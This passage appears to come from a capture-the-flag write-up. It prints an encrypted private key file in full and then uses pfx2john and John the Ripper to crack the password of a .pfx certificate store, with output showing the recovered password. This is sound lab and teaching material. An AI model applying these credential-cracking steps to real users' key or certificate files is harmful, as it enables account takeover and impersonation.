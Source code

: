 We have a username, email, and SID.

Let's take a look at his key.
```bash
cat baker.key

Bag Attributes
    friendlyName:
    localKeyID: DC 2B 20 65 C3 0D 91 40 E8 37 B5 CC 06 0F EA 66 5D 3B 7C 4E
Key Attributes: <No Attributes>
-----BEGIN ENCRYPTED PRIVATE KEY-----
MIIFNTBfBgkqhkiG9w0BBQ0wUjAxBgkqhkiG9w0BBQwwJAQQ17OfpdLR0GFTqV4d
KoDehgICCAAwDAYIKoZIhvcNAgkFADAdBglghkgBZQMEASoEEEcu2qznlHlXQqAg
xOEmzdQEggTQHj6+lbqr5wQXN8Oqxe57h5vuA8ihIcIte/gpDRNnIzvLDvmQ3gSr
JE51d0E4VhzxcSYH43m3X64GQ8mkESOuoKh5JhwX5+vWHvbKM18komfpX4MHhe0J
wblo8Dhc3j2BSuhRoYpG9mJwSdATYFwxlYnWF5499bDHGkPnOPkR08C/FRyW1QhJ
qyMGNLnJ9IxlWySY+Fm/0RQOyu4hS0u87OLoglW9OIhDfu6rz0QdDWIs+1dQxrwE
a6OBdL+q38NSK6H2cBopCYTtyGw/Okzl5+Lrn411a2HdpT8JjXinTNZMtn9hww6U
MqqMUYzXG6zfBQ/vSoutIW0/Wkg5b4BVK/wW/EFh6vcBlWVk0CdXz8kScsWx7KF4
4yqKTN/aWGfvYx2DWW17cGzUsOvAmW1OXgu2YBYVAjs6vbXYzJyqzTKIlsSKmnP+
wzaoxgAsT/QtEAHppMDIW0jEDpYDcRvRi5//Ejpdbz3XETvEXFj1OEpWVwWTxZSM
tiEjCRJU/btiRsXoB1p1mvHEA1RyO+XX93yX5WRbFUB+5t9t8XrVCsUt1JfFNdVa
mC4BhzAInFgut74NiIQ7vbe3OlNsse0ZWtfwof4mzb4U1e7dCffD0IoKXLxZhszd
Cave8eNaHYi6N7wO5ActNp5HhQFhtogTSe99NHnE41zRHTcejsFsUQS/mpzubUXj
aGkTt5uPRJXuw5+jcxpZOvXKb6qDdJUSCa/Od4fGgmQGtaKBr/XIciQg/K96CBUH
ayp6WcBcAwtTZeUQJM/V/qheHtipsJjuJzeBi35IitpafblcrKMSmtIKE972b5fD
X0NdnDCSrNZeTXNYC4BN2+t4h1QP1heWU2jfzNLAcDoD+aUrpW/JCEGwMzOe6MTC
c/h3NCYOcPvcc3L20wXOtYOjp6gzDdp2JliW+n6QUxm7fJo/AUtGGSknziZ3VbMc
fqC4vbPy88d2fHt9QWmIOmjpMpwZObotA8rMpg41FxsXQq9mqZy08tppF6T0DdwY
A8soic4SbMpUAuuAz9WJRwKtHwlGoJNtBrLfrVKsUnO/FGZpDOYyIRCBMlMyI6u2
LPLVkRIJx+tajQhkzhfTmdx6CQUmeaJU2wL92fY1jqTeRcm2T70TVHKZk2spcaGp
lVcRgWdFAz52JHNCfVjCfJ6dRbVPxbSC2vHN/YJa8LcQA0RGgKxoh1sRC/3HHFQz
wtJ/xnp/dk4YsntrUOgr8/mcjYqQh7WqRzHFYG/VE2Ipy3XT6iONi23ggiAWP9KV
e0cRcPSwjN4FzQH+fX3rf1x8YcQI9UricqxI2IM3Q9dDkZhMz4yjStO2XGpOo5od
AiOTySb9tflvKZOggXKZE1Eo7lHpWYfKt7baQlUEFb2RslA0JjBtJ8fdJqdHW1+8
3o8QN4AJtYqNDB6dHaxMmwG7L1WnCMofbGDxlK+bdsgr3BapXt0n6+JXA6iS7i8J
wYTlDp5UYXTT87fUGejNBXhCsJODZJGQxVjxl5JMhmaLbvFNW0YDAZe8WnX7LsYp
7X+ajbc3hOSIIU1JOufrGWQxVvkoFdXcRBG9L15Uwsrpfzr2CA5J3kRMBxuZQnjJ
90yWTwKFUUj3pzCG2WyraNJn44jo3sFJzoUhyUKUYfn2lMtnwOvw//A=
-----END ENCRYPTED PRIVATE KEY-----
```

Unfortunately the private key is encrypted which means we'll need a password to decrypt it.

Attempting to crack it with `john` doesn't seem to work, let's try cracking the pfx files instead.

```bash
pfx2john.py mount/clark.pfx >> clark.pem

john clark.pem

Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 16 OpenMP threads
Note: Passwords longer than 16 [worst case UTF-8] to 48 [ASCII] rejected
Proceeding with single, rules:Single
Press q or Ctrl-C to abort, h for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-04-20 11:10) 0g/s 21035p/s 21035c/s 21035C/s Cclark.pfx1900..Pclark1900
Proceeding with wordlist:/opt/tools/john/run/password.lst
Enabling duplicate candidate password suppressor
"newpassword      (clark.pfx)"
1g 0:00:00:01 DONE 2/3 (2025-04-20 11:10) 0.7194g/s 16033p/s 16033c/s 16033C/s annabelle..nelly1
```